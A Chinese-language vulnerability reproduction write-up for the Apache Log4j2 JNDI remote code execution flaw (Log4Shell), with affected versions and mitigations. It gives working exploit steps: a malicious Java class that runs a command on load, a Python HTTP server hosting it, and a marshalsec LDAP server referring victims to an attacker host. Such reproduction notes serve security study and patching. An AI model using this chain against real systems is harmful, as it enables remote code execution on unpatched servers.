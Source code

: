 # Apache Log4j2远程代码执行漏洞复现

## 漏洞原理

log4j2版本 < log4j-2.15.0-rc2 可由JNDI注入实现远程代码执行。

## 影响版本

```
Log4j2.x<=2.14.1
```

## **漏洞复现**

漏洞分析的可以参考逐日实验室的这篇：https://mp.weixin.qq.com/s/1oesQz-UkpqKN3BQH9BKtw

准备环境

把受影响的jar包拖进随手建立的一个java项目，这里部署jar包步骤就不写了，网上一搜傻瓜式教程都有。
![image.png](https://image.3001.net/images/20211210/1639120138_61b2fd0a570348bea045c.png!small)

![image.png](https://image.3001.net/images/20211210/1639120335_61b2fdcf6c16ac0e010cd.png!small)

攻击机环境搭建，这里我用的vps（师兄的，因为我的是Windows。）复现环境的jdk版本最好<=8u191,基于ldap的利用方式，适用jdk版本：JDK 11.0.1、8u191、7u201、6u211之前。

这里我复现环境的java版本是

![02eda79925d1335ad7ce33bcf254211.png](https://image.3001.net/images/20211212/1639318700_61b604acb244c8d0f429f.png!small)

vps下载marshalsec(我这里已经安装好）：

```
git clone https://github.com/mbechler/marshalsec.git
```

![image.png](https://image.3001.net/images/20211210/1639120182_61b2fd36d4277d17a7ae1.png!small)

然后安装maven：

```
apt-get install maven
```

然后使用maven编译marshalsec成jar包，我们先进入下载的marshalsec文件中运行：

```
mvn clean package -DskipTests
```

都成功后，编译恶意类代码robots.java

再用javac编译成robots.class文件

```
javac robots.java
import java.lang.Runtime;
import java.lang.Process;
public class robots{
 static {
 try {
 Runtime rt = Runtime.getRuntime();
 String[] commands = {"calc.exe"};
 Process pc = rt.exec(commands);
 pc.waitFor();
 } catch (Exception e) {
 // do nothing
 }
 }
}
```

![image.png](https://image.3001.net/images/20211210/1639120195_61b2fd43127cf594009cb.png!small)

搭建http服务传输恶意class文件

```
python -m SimpleHTTPServer 80
```

![45e13ef22cd9954b27afb68b660169d.png](https://image.3001.net/images/20211210/1639120690_61b2ff324a9fba01c9357.png!small)

然后我们借助marshalsec项目，启动一个LDAP服务器，监听9999端口，这里的ip为vps的ip

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://x.x.x.x/#robots" 9999
```

![image.png](https://image.3001.net/images/20211210/1639120214_61b2fd56f2a7c8ba037b2.png!small)

成功执行
![image.png](https://image.3001.net/images/20211210/1639120222_61b2fd5e9e6552f210bec.png!small)

跟fastjson复现步骤差不多，可以参考我fastjson的文章：https://www.freebuf.com/articles/web/283585.html

## 修复方法

截止到目前，网上的修复方法大致是这些：

补丁链接:
https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc2

1）添加jvm启动参数-Dlog4j2.formatMsgNoLookups=true；

2）在应用classpath下添加log4j2.component.properties配置文件，文件内容为log4j2.formatMsgNoLookups=true；

3）JDK使用11.0.1、8u191、7u201、6u211及以上的高版本；